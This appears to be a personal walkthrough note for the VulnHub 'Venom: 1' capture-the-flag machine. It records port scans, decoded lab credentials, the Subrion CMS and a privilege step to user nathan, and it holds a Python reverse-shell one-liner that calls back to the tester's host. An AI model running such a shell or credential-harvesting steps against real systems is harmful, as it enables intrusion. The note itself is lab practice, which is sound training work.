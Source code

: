 https://www.vulnhub.com/entry/venom-1,701/


---

**S1REN's Template Reference**

\[OS]: Unix
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.4
\[USERS]:   
\[CREDENTIALS]:  hostinger

FTP: hostinger: hostinger
http://venom.box/panel/ - dora: E7r9t8@Q#h%Hy+M1234
nathan :: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

---
\[To-Try LIST]:  
21:  ftp        vsftpd 3.0.3
![[Pasted image 20250819033712.png]]
![[Pasted image 20250819033823.png]]
└─$ cat hint.txt         
	Hey there... 

T0D0 --

You need to follow the 'hostinger' on 

WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=  -> standard vigienere cipher

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI= -> https://cryptii.com/pipes/vigenere-cipher


some knowledge of cipher is required to decode the **dora** password..
try on 
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the **administrator** password 


admin :: dora
encrypted :: L7f9l8@J#p%Ue+Q1234
key :: hostinger
decrypted :: E7r9t8@Q#h%Hy+M1234
to try on: venom.box 


venom.box -> add to hosts -> webpage -> Powered by Subrion 4.2

![[Pasted image 20250819041003.png]]

rev shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.5",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'`

![[Pasted image 20250819042218.png]]

![[Pasted image 20250819043031.png]]

history:
 cat  /var/www/html/subrion/backup/.htaccess -> FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

su: nathan
![[Pasted image 20250819043355.png]]


80: Apache httpd 2.4.29 ((Ubuntu)) 
443: Apache httpd 2.4.29




---
\[NMAP RESULTS]:  

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   closed ssh
80/tcp   open   http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open   http       Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
7070/tcp closed realserver
8084/tcp closed websnp

\[Web Services Enumeration]:   

**80 and 443:**  http://192.168.100.4:80,http://192.168.100.4:443
Apache httpd 2.4.29: https://www.exploit-db.com/exploits/744
https://launchpad.net/bugs/1288690 -> CVE 2016-4979
Page Source: 5f2a66f947fa5690c26506f66bde5c23 -> Crackstation -> hostinger
Gobuster - /server-status





========================================================================= \[OTHER / PRIVILEGE-ESCALATION]:   ========================================================================= \Take Away Concepts: *  *  *

    
    HOTKEYS! Background: Black Foreground (important elements): Red Background-Color: Select Text > Shift + Alt + B + ENTER Foreground Color: Select Text > Shift + Alt + F + ENTER Move quickly with: Function key + left and right arrows Cntrl + left and right arrows Cntrl + Shift (select text) (edited)
